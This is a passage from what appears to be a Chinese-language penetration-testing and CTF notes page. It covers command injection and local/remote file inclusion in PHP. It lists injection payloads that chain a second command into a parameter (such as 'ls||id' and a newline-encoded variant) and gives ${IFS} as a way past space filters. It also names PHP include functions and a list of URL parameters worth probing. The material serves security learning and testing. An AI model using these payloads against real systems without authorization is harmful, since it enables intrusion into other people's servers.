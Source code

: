 测试的命令：

```
ls||id;
ls|id;
ls&&id;
ls&id;
ls %0A id
```

不止在url传参界面有这个漏洞，还会在其他的传参界面存在，列如我写的这篇文章
[https://blog.csdn.net/qq_45894840/article/details/127727429?spm=1001.2014.3001.5501](https://blog.csdn.net/qq_45894840/article/details/127727429?spm=1001.2014.3001.5501)
![](https://img-blog.csdnimg.cn/img_convert/a7b800f46e41a53d1828cad49a3a47af.png)
在文件上传界面也有命令注入的漏洞，可以遇到有传参的界面就去测试
如果需要输入空格，可以用以下命令代替空格

```
${IFS}
+
```



# LFI && RFI

本地文件包含漏洞无论是在挖洞的时候和打ctf比赛的时候都会遇到，当用户可以通过某种方式控制将由服务器加载的文件时，就会出现此漏洞。
易受攻击的**PHP 函数**：require、require_once、include、include_once
而远程文件包含比较少见，因为在php中这是默认**禁用**的函数
容易存在文件包含漏洞的参数

```
?cat=
?dir=
?action=
?board=
?date=
?detail=
?file=
?download=
?path=
?folder=
?prefix=
?include=
?page=
?inc=
?locate=
?show=
?doc=
?site=
?type=
?view=
?content=
?document=
?layout=
?mod=
?conf=
```
